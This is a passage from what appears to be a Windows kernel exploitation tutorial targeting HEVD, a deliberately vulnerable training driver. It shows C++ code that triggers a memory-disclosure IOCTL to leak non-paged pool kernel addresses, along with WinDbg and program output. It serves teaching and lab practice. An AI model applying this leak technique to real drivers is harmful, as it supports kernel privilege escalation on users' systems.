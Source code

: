 ```C++
[...]
    const uint32_t IOCTL_MEM_DISCLOSURE = 0x22203f;
    const uint32_t buffer_size = 0x400;
    uint8_t buffer[buffer_size];

    printf("Leaking non-paged pool memory address... ");

    DeviceIoControl(
        hevdDevice,
        IOCTL_MEM_DISCLOSURE,
        NULL,
        0,
        buffer,
        buffer_size,
        NULL,
        NULL
    );

    for (uint32_t i = 0; i < buffer_size; i += 8) {
        uint64_t leak = *(uint64_t*)((uint64_t)buffer + i);
        printf("Offset %p: %p\n", i, leak);
    }
[...]
```

After executing this, a debug message in `WinDbg` will tell us the address of the allocated buffer:

```
****** HEVD_IOCTL_MEMORY_DISCLOSURE_NON_PAGED_POOL ******
[+] Allocating Pool chunk
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x1F8
[+] Pool Chunk: 0xFFFF980B50B03230
[+] UserOutputBuffer: 0x000000B6CA0FE7C0
[+] UserOutputBuffer Size: 0x400
[+] KernelBuffer: 0xFFFF980B50B03230
[+] KernelBuffer Size: 0x1F8
[+] Triggering Memory Disclosure in NonPagedPool
[+] Freeing Pool chunk
[+] Pool Tag: 'kcaH'
[+] Pool Chunk: 0xFFFF980B50B03230
****** HEVD_IOCTL_MEMORY_DISCLOSURE_NON_PAGED_POOL ******
```

And in our program output we see the following:

```
[...]
Offset 00000000000001F0: 4141414141414141
Offset 00000000000001F8: 0000022A20134880
Offset 0000000000000200: B9C2301B0D9CD959
Offset 0000000000000208: FFFF980B50B02E58
Offset 0000000000000210: FFFF980B50B03FE8
[...]
```
